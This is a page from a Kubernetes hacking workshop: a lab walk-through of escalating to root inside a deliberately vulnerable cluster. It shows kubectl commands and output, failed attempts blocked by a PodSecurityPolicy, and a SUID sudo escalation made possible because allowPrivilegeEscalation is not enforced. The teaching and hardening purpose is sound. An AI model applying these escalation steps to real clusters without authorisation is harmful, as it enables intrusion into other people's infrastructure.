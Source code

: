 # Hands-on Hacking K8s Workshop | Section 2: Exploit Walk-through

<!-- TOC -->
* [Hands-on Hacking K8s Workshop | Section 2: Exploit Walk-through](#hands-on-hacking-k8s-workshop--section-2--exploit-walk-through)
  * [Part 4: Setting up a beachhead in the cluster](#part-4--setting-up-a-beachhead-in-the-cluster)
    * [Checkpoint](#checkpoint)
      * [What we already knew:](#what-we-already-knew-)
      * [New info:](#new-info-)
      * [Timeline of Doom](#timeline-of-doom)
  * [Next step](#next-step)
<!-- TOC -->

## Part 4: Setting up a beachhead in the cluster

Now that we have Permissions in this secure name space let's see if we can escalate our privileges to break into more areas.
1. First of all, let's exec into the `webadmin` Pod and see what's available to us. Get the Pod name and
   exec into it:
   ```shell
   $ kubectl get pod -n secure
   NAME                        READY   STATUS                       RESTARTS   AGE
   webadmin-69dd65c7f9-hx9cr   1/1     Running                      0          3h37m
   
   $ kubectl exec -n secure -it webadmin-69dd65c7f9-hx9cr -- bash
   webadmin@webadmin-69dd65c7f9-hx9cr:/usr/src/app$
   ```

   
2. Now that we have a shell in the Pod, let's see if we are (or can become) root. Check our user with `whoami`:
   ```shell
   webadmin@webadmin-69dd65c7f9-hx9cr:/usr/src/app$ whoami
   webadmin
   ```
   Not root, but can we become root with `sudo su-`?
   ```shell
   webadmin@webadmin-69dd65c7f9-hx9cr:/usr/src/app$ sudo su -
   bash: sudo: command not found
   ```
   No `sudo`. This tells us the image is better constructed than many default ones as the authors have taken the time
   to change to a non-root user and are not shipping sudo.


3. Let's see if we can make modifications to the filesystem: `touch test`
   ```shell
   webadmin@webadmin-69dd65c7f9-hx9cr:/usr/src/app$ touch test
   
   webadmin@webadmin-69dd65c7f9-hx9cr:/usr/src/app$ ls -l test
   -rw-r--r-- 1 webadmin webadmin 0 Aug 30 18:27 test
   
   webadmin@webadmin-69dd65c7f9-hx9cr:/usr/src/app$ df .
   Filesystem     1K-blocks     Used Available Use% Mounted on
   overlay         61255492 14359844  43754324  25% /
   ```
   We can write to the root filesystem the means we could download software or change configuration.
   We already know we have curl, so that's definitely possible. This is a vulnerability, caused by not
   setting `readonlyRootFilesystem=true` in the Pod SecurityContext and enforcing it in the PSP.

   While this is interesting, it's going to be hard to elevate privileges to root in the Pod so exit out of
   the exec session, and we'll move on for now.


4. Let's try to launch a pod with a root user using the manifest [demo_yamls/root_pod.yaml](../demo_yamls/root_pod.yaml)
   which consists of a container running the `alpine` image that simply sleeps but runs as root by default.

   Deploy the Pod via: `kubectl apply -f demo_yamls/root_pod.yaml -n secure`:
   ```shell
   $ kubectl apply -f demo_yamls/root_pod.yaml -n secure
   pod/root-pod created
   ```

   
5. Check that it started with `kubectl get pods -n secure`
   ```shell
   $ kubectl get pods -n secure
   NAME                        READY   STATUS                       RESTARTS   AGE
   root-pod                    0/1     CreateContainerConfigError   0          29s
   webadmin-69dd65c7f9-hx9cr   1/1     Running                      0          3h21m
   ```
   The `CreateContainerConfigError` status tells us something went wrong so we will need to look into the
   Pod descrition for more info: `kubectl describe pod root-pod -n secure`
   ```shell
   $ kubectl describe pod root-pod -n secure
   Name:         root-pod
   Namespace:    secure
   ...
     Warning  Failed     111s (x8 over 3m16s)  kubelet            Error: container has runAsNonRoot and image will run as root (pod: "root-pod_secure(65ba8870-6615-469c-9bd0-f97715e7983a)", container: justsleep)
   ...
   ```
   From this warning we know that something is blocking us deploying a container running as root, likely
   Pod Security Policy.


6. Let's try and launch a privileged pod running as non-root using the [demo_yamls/nonroot_priv.yaml](../demo_yamls/nonroot_priv.yaml)
   manifest. That Pod runs a container image we've built with a non-root user but in Privileged mode:
   `kubectl apply -f demo_yamls/nonroot_priv.yaml -n secure`
   ```shell
   $ kubectl apply -f demo_yamls/nonroot_priv.yaml -n secure
   Error from server (Forbidden): error when creating "demo_yamls/nonroot_priv.yaml": pods "nonroot-priv" is forbidden: PodSecurityPolicy: unable to admit pod: [spec.containers[0].securityContext.privileged: Invalid value: true: Privileged containers are not allowed]
   ```
   Here we can see we've definitely got a PSP that's restricting us in that namespace.
   _(Another way to tell that PSP's are being applied is to look for `kubernetes.io/psp` annotations in
   your Pod describe output.)_


7. Restricting Privileged mode is very common in PSPs so let's change our tactic a bit and run a Pod
   with the same image but without privileged mode as defined in [../demo_yamls/nonroot_nonpriv.yaml](../demo_yamls/nonroot_nonpriv.yaml).
   Run `kubectl apply -f demo_yamls/nonroot_nonpriv.yaml -n secure` and then check the Pod list:
   ```shell
   $ kubectl apply -f demo_yamls/nonroot_nonpriv.yaml -n secure
   pod/snyky created
   
   $ kubectl get pods -n secure
   NAME                        READY   STATUS                       RESTARTS   AGE
   root-pod                    0/1     CreateContainerConfigError   0          16m
   snyky                       1/1     Running                      0          19s
   webadmin-69dd65c7f9-hx9cr   1/1     Running                      0          3h37m
   ```
   Progress!


8. Now we will exec into our new Pod and see what we can do: `kubectl exec -n secure -it snyky -- bash`
   ```shell
   $ kubectl exec -n secure -it snyky -- bash
   To run a command as administrator (user "root"), use "sudo <command>".
   See "man sudo_root" for details.
   
   snyky@snyky:/root$
   ```
   Now, try the same `whoami` and `sudo` opperation from before:
   ```shell
   snyky@snyky:/root$ whoami
   snyky
   snyky@snyky:/root$ sudo su -
   root@snyky:~# whoami
   root
   ```
   Success! We have root in a Pod in the target cluster!

   But why did this work? This is because the PSP doesn't include enforcement of the `allowPrivilegeEscalation=false`
   SecurityContext setting. This is a common error because many assume that the `privileged: false` also
   covers PrivilegeEscalation, but it does not so any binary with the SUID bit set, can elevate privileges
   if that restriction is not explicitly configured.

### Checkpoint
Let's take a moment to collect our notes and track our progress.

#### What we already knew:
* An application with an RCE vulnerability is available to us on port 80
* The application is running in a container on a Kubernetes cluster
* The application is behind a service listening on port 5000
* The Kubernetes api-server internal IP address 
* The IP address of the container/pod the application is running in
* The ServiceAccount and Pod configurations in the `secure` Namespace is using the default `automountServiceAccountToken` setting of `true`
* Using a found ServiceAccount token, we were able to connect to the cluster's api-server
* The api-server returned Endpoint information exposing its external IP _(although our workshop Kind cluster obscures this in practice)_
* The account for the token gathered has limited access in the `default` Namespace
* The account is from a Namespace titled `secure` where it has broad access.

#### New info:
* The application container is somewhat hardened by running as a non-root user and its image does not include `sudo`
* The application container is not running with a `readOnlyRootFilesystem:true` so it's mutable
* There are PSP configurations in place in the `secure` Namespace that restrict root users and privileged mode containers/pods
* The `secure` Namespace PSP is **not** configured with `allowPrivilegeEscalation:false` so SUID binaries are effective

![](media/02-04-Checkpoint-1.png)

#### Timeline of Doom
Updated progress toward total ownership of the target cluster.
![](media/02-04-Timeline-1.png)

## Next step
In the [next step](02e-exploit.md) we leverage our elevated privileges to further explore the cluster and see if any other
targets exist elsewhere in the cluster.
